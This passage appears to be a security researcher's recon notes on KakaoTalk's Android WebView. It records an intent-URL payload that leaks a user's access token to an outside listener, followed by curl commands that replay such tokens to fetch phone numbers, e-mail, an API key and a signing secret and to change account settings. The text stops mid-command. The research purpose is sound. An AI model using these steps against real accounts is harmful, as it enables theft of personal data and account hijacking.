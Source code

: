 # WebView Recon

- [Low Severity Findings](#low-severity-findings)
- [TODOs / Digging](#TODOs--digging)
  - [Tokens / Cookies](#tokens--cookies)
  - [JavaScript Interfaces](#javascriptinterface)
  - [Redirect Endpoints](#redirect-endpoints)
  - [XSS Endpoints](#possible-xss-endpoints)
  - [CSRF](#csrf)
  - [File Access / Content Providers](#file-access--content-providers)
  - [DownloadListener](#downloadlistenerondownloadstart)
  - [Deeplinks](#deeplinks)
  - [Kakao Pay](#kakao-pay)
  - [Misc](#misc)
- [Appendix](#appendix)
  - [Attack Vectors](#attack-vector-brainstorming)
  - [Payloads](#payloads)
  - [KGPopupActivity](#kgpopupactivity)
- [Resources](#resources)

> Disclaimer: Initial recon was performed on an older version of KakaoTalk (`10.1.7`).

> There are a lot of **TODO's** in this document where one can try to dig deeper.

## Low Severity Findings

- Access token leakage in non-exported `MyProfileSettingsActivity` via HTTP request header:
  - `location.href = "intent:#Intent;component=com.kakao.talk/.activity.setting.MyProfileSettingsActivity;S.EXTRA_URL=http://10.0.2.2:8888/;end"`

With this access token a couple of interesting REST APIs can be queried:

```bash
# Get phone number, e-mail address and other PII
curl -i -s -k -X $'GET' \
    -H $'Host: katalk.kakao.com' -H $'Accept-Language: en' -H $'User-Agent: KT/10.3.8 An/11 en' -H $'Authorization: 732900c017ec4704b10f9241a3a533e800000017002173708450010fW9JnsTbx7-1f832a7f5963fd31e14e6290394909ef930ce720b31bfd546271c6b5f3cefb54' -H $'A: android/9.5.0/en' -H $'C: a327a1ad-b417-499a-abf7-48da89076e7c' -H $'Accept-Encoding: json, deflate, br' -H $'Connection: close' \
    $'https://katalk.kakao.com/android/account/more_settings.json?os_version=30&model=SDK_GPHONE_ARM64&since=1693786891&lang=en&vc=2610380&email=2&adid=&adid_status=-1'

# Get more settings (including a Google API key and URL signing secret)
curl -i -s -k -X $'GET' \
    -H $'Host: katalk.kakao.com' -H $'Accept-Language: en' -H $'User-Agent: KT/9.5.0 An/11 en' -H $'Authorization: 732900c017ec4704b10f9241a3a533e800000017002173708450010fW9JnsTbx7-1f832a7f5963fd31e14e6290394909ef930ce720b31bfd546271c6b5f3cefb54' -H $'A: android/9.5.0/en' -H $'C: b2f4724a-7bac-4076-8864-021b5c9205ea' -H $'Accept-Encoding: json, deflate, br' -H $'Connection: close' \
    $'https://katalk.kakao.com/android/account/less_settings.json'

# Update settings
curl -i -s -k -X $'POST' \
    -H $'Host: katalk.kakao.com' -H $'Accept-Language: en' -H $'User-Agent: KT/9.5.0 An/11 en' -H $'Authorization: 106dc72ab6be4f11b321ac2f09fd0f53000000170014088214200107mOCAvLuEq-472ab54a821a25a17cfc511fe8f5ea4086837931d20e0de8688ef9c3a1ad7789' -H $'A: android/9.5.0/en' -H $'Adid: 0b1d9d5d-813f-4952-a3bc-b04628f04344' -H $'C: 9b5c6b99-67c2-4b7c-8047-7f3c2fbfa899' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Content-Length: 120' -H $'Accept-Encoding: gzip, deflate, br' -H $'Connection: close' \
    --data-binary $'phone_type=1&sim_operator=310260&sim_eq=1&os_version=30&os_name=android&model=SDK_GPHONE_ARM64&screen_resolution=320x592' \
    $'https://katalk.kakao.com/android/account/update_settings.json'

# Kakaotalk "My Password"
curl -i -s -k -X $'GET' \
```